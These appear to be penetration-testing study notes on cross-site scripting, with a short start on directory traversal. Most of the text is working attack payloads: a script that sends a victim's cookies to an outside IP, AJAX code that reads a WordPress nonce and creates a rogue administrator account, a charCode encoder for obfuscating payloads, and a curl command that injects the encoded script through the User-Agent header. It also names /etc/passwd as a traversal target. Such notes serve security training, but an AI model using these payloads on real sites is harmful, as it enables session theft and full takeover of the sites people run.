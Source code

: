 Cookie stealer

```html
<script>new Image().src="http://10.11.0.4/cool.jpg?output="+document.cookie;</script>
```

**User-Agent** HTTP header: `<script>alert(42)</script>`

**AJAX**
```js
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

To minify attack code into a one-liner: **JS Compress**

Encode the minified JavaScript code (so any bad characters won't interfere with sending the payload)

```js
function encode_to_javascript(string) {
    var input = string
    var output = '';
    for(pos = 0; pos < input.length; pos++) {
        output += input.charCodeAt(pos);
        if(pos != (input.length - 1)) {
            output += ",";
        }
    }
    return output;
}

let encoded = encode_to_javascript('<insert_minified_javascript>')
console.log(encoded)
```

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(<encoded JS code>))</script>" --proxy 127.0.0.1:8080
```

## Directory Traversal

File that is readable by all local users:
- On Linux: `/etc/passwd`
- On Windows: `C:\Windows\System32\drivers\etc\hosts`

